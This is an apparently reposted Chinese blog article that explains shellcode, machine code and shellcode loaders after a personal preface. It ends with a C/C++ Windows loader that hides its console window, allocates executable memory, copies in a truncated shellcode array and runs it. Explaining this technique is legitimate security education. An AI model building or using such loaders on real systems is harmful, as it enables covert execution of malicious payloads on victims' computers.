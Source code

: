 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [zhuanlan.zhihu.com](https://zhuanlan.zhihu.com/p/106651024)

原创 AgeloVito 合天智汇

0x01 前言
-------

​ 2019 年，告别了 coder 的世界，告别了从前的生活。我决定暂时抛开金钱至上的价值体系，以一个 Fucking loser 的身份去寻找人生中的三大哲学问题，我是谁，我在哪儿，我在做什么。褪去了互联网行业的尔虞我诈，轻浮缥缈。在这个铺天盖地的泛娱乐时代，我决定去看看大海，去感受下海水的味道，没错，它确实是咸的。当沙滩上的沙子铺满全身的那一刻，我，拥有了几分钟童年。在途中，偶遇了黄河，没错，它确实很黄，并且波涛汹涌。也在这途中，缘分使我进入了曾经告别的安全行业。

0x02 概述
-------

### 1、什么是 shellcode

​ 在维基百科中这样解释道：在黑客攻击中，shellcode 是一小段代码，用于利用软件漏洞作为有效载荷。它之所以被称为 “shellcode”，是因为它通常启动一个命令 shell，攻击者可以从这个命令 shell 控制受损的计算机，但是执行类似任务的任何代码都可以被称为 shellcode。因为有效载荷（payload）的功能不仅限于生成 shell，所以有些人认为 shellcode 的名称是不够严谨的。然而，试图取代这一术语的努力并没有得到广泛的接受。shellcode 通常是用机器码编写的。

​ 翻译成人话就是：shellcode 是一段机器码，用于执行某些动作。

### 2、什么是机器码

​ 在百度百科中这样解释道：计算机直接使用的程序语言，其语句就是机器指令码，机器指令码是用于指挥计算机应做的操作和操作数地址的一组二进制数。

​ 翻译成人话就是：**直接**指挥计算机的机器指令码。

​ 人们用助记符号代替机器指令码从而形成了汇编语言，后来为了使计算机用户编程序更容易，发展出了各种高级计算机语言。但是，无论是汇编语言还是其他各种面向过程异或面向对象的高级语言所写的代码最终都要被相关的翻译编译环境转换成相应的机器指令码，计算机才能运行该段代码，因为计算机只认识机器指令码。

### 3、什么是 shellcode loader

​ 人话：shellcode loader 是用于加载和运行 shellcode 的代码。

### C/C++ 加载方式

```
#include "pch.h"
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//不显示窗口

unsigned char shellcode[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\......";

void main()
{
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode),MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (Memory == NULL) { return; }
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
}
```
